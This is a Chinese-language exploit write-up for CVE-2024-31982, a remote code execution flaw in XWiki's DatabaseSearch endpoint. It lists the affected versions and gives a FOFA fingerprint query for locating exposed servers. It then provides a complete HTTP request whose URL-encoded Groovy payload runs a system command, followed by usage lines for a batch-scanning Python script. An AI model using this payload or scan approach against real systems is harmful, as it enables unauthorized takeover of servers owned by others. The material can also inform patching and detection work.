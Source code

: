 # CVE-2024-31982 XWiki DatabaseSearch 远程代码执行漏洞

### 1.漏洞描述

XWiki 是一个由 Java 编写的基于 LGPL 协议发布的开源 wiki 和应用平台。它的开发平台特性允许创建协作式 Web 应用，同时也提供了构建于平台之上的打包应用。该系统/bin/get/Main/DatabaseSearch接口处存在远程代码执行漏洞，未经授权的攻击者可执行任意代码，会导致服务器失陷，请及时修复。

### 2.影响版本

XWiki平台  2.4-milestone-1及之前的版本4.10.20、15.5.4和15.10-rc-1版本

### 3.fofa语法

```plain
body="data-xwiki-reference"
```

### 4.漏洞复现

```plain
GET /bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7Dthrow%20new%20Exception%28%27id%27.execute%28%29.text%29%3B%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719920012978-730b91bf-7f3c-426e-9431-1c321e23df24.png)

### 5.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```